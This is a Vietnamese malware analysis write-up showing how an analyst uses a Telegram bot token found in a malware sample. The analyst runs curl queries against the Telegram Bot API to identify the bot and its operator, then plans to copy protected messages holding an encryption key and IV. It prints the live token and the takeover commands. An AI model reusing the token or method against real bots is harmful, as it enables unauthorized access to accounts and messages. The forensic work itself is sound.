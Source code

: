 Malware sử dụng method `sendMessage` để con bot gửi kết quả cho chat_id `1617506446`, vậy là sẽ có thêm mấy hàm như vậy nhưng dành cho getMessage chẳng hạn...., nhưng trước hết thì kiểm tra thông tin của con bot trước đã sử dụng `getMe`

```bash
$ curl https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/getMe
{"ok":true,"result":{"id":7457737016,"is_bot":true,"first_name":"tmqsuperbot_bot","username":"tmqsuperbot_bot","can_join_groups":true,"can_read_all_group_messages":false,"supports_inline_queries":false,"can_connect_to_business":false,"has_main_web_app":false}}
```

Sau đó thử nhắn cho bot và chạy `getUpdates`

```bash
$ curl https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/getUpdates
{"ok":true,"result":[{"update_id":908986582,
"message":{"message_id":734,"from":{"id":5143375419,"is_bot":false,"first_name":"euywghf","username":"namna772","language_code":"en"},"chat":{"id":5143375419,"first_name":"euywghf","username":"namna772","type":"private"},"date":1749024646,"text":"/start","entities":[{"offset":0,"length":6,"type":"bot_command"}]}}]}
```

Vậy là bot vẫn còn hoạt động, vừa nhận `/start` từ tôi và biết được chat_id tele của mình là `5143375419`

Giờ thì kiểm tra trên https://core.telegram.org/bots/api#available-methods để xem có các loại method nào lấy được tin nhắn mà bot đã gửi

Thử xem info của chat_id `1617506446` trước đã https://core.telegram.org/bots/api#getchat, method này chỉ yêu cầu chat_id được đưa vào

```bash
$ curl https://api.telegram.org/bot7457737016:AAEvv7iDxEzpd9bxMmY9BBwZM0rE2e9Yef0/getChat?chat_id=1617506446
{"ok":true,"result":{"id":1617506446,"first_name":"py","username":"py0bf3c4t0r","type":"private","can_send_gift":true,"active_usernames":["py0bf3c4t0r"],"has_private_forwards":true,"accepted_gift_types":{"unlimited_gifts":true,"limited_gifts":true,"unique_gifts":true,"premium_subscription":true},"max_reaction_count":11,"accent_color_id":3}}
```

Đây là một người dùng tên là `py0bf3c4t0r` chưa có gì mới lắm, xem tiếp các method thì thấy có 2 method là [copyMessages](https://core.telegram.org/bots/api#copymessages) và [forwardMessages](https://core.telegram.org/bots/api#forwardmessages). Ở đây sử dụng `copyMessages` sẽ cho ta full key và iv, `forwardMessages` thì lại không làm được có lẽ là do **Service messages and messages with protected content can't be forwarded:** các tin nhắn được bật `'protect_content': true` thì sẽ không thể forward được, ta có thể thấy điều này trong code của malware. Với cả trong tài liệu api thì họ cũng nói rằng `copyMessages` gần như tương tự so với `forwardMessages` chỉ khác ở chỗ forward sẽ hiển thị reference đến người đã gửi tin nhắn trong chat là ai, còn copy thì chỉ là copy y nguyên thôi không quan trọng của ai cả nhưng tất nhiên là để lấy key và iv thì không cần biết điều đấy rồi.

```py
data = {'chat_id': chat_id, 'text': message, 'protect_content': True}
```

Và để forward hoặc copy thì ta cần có 3 parameter bắt buộc phải đưa vào là `chat_id`(Sẽ là cho id mà bot sẽ gửi tin nhắn đến, ở đây nên là chatid của mình, và trước đó phải start con bot này đã `5143375419`) `from_chat_id`(Nội dung chat được lấy từ id nào ở đây sẽ là `1617506446`) và `message_ids`(cái này là 1 array, có thể đưa 1 giá trị vào array cũng chả sao, có thể dùng 2 hàm `copyMessage` với `forwardMessage` nếu muốn lấy riêng 1 id vì không biết id nào nên lấy luôn từ 1 đến 10)

